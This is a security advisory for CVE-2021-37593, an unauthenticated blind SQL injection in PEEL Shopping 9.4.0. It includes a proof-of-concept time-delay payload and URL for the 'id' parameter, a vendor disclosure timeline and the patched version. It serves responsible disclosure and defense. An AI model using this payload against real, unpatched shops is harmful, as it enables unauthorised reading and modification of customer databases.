 
**Title:** Unauthenticated Blind SQL Injection vulnerability In PEEL Shopping 

**Product:** PEEL Shopping

**Vulnerable Version:** 9.4.0 

**Fixed Version:** 9.4.0.1 

**CVE ID:** CVE-2021-37593 

**Impact:** Critical 

**CVSSv3 Score:** 9.1 - CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N

**Homepage:** https://www.peel-shopping.com/

**Date of Discovery:** 10 July 2021

**Author:** Mohammad Faisal Sammio | NetbyteSEC


----

## Vendor/product description:

*"PEEL SHOPPING is a free ecommerce CMS in PHP / MySQL, that is to say a a modern and safety management tool that lets you manage your product catalog, the text on your website and everything else from a single, simple and efficient administrative interface. Since 2004, PEEL brings innovation and reliability to the world of e-commerce by offering tailored solutions to create complete and simple online shops at suitable prices for everyone."
Source: https://www.peel-shopping.com/*



## Vulnerability overview:

PEEL Shopping version 9.4.0 allows remote SQL injection. A public user/guest (unauthenticated) can inject a malicious SQL query in order to affect the execution of predefined SQL commands. Upon a successful SQL injection attack, an attacker can read sensitive data from the database and possibly modify database data.



## Proof Of Concept:
 
- The following concept could be used to perform blind SQL injection attack:

      METHOD : GET
      PARAMETER : id
      PAYLOAD : (SELECT * FROM (SELECT(SLEEP(5)))NBSX)
      URL : http://localhost/peel-shopping_9.4.0/achat/produit_details.php?id=[SQL-INJECTION]

- As a proof of concept for exploiting the blind SQL injection, requesting the following URL will cause a time delay.

      http:// localhost/peel-shopping_9.4.0/achat/produit_details.php?id=(SELECT * FROM (SELECT(SLEEP(5)))NBSX)


## Tested Versions: 

The vulnerability has been verified to exist in the PEEL Shopping version 9.4.0. It was found in this version, which was updated and released below a week just prior to the discovery.


## Vendor Contact Timeline:

    2021-07-10: Contacting vendor through email.
    2021-07-12: Request update from vendor, sending advisory draft and proof of concept.
    2021-07-13: Vendor acknowledge and confirms security issue.
    2021-07-14: Vendor response with security patches available on their website.
    2021-07-26: Public release of security advisory
 
## Solution:

Update to latest version 9.4.0.1 on their website.

https://www.peel-shopping.com/modules/telechargement/telecharger.php?id=7


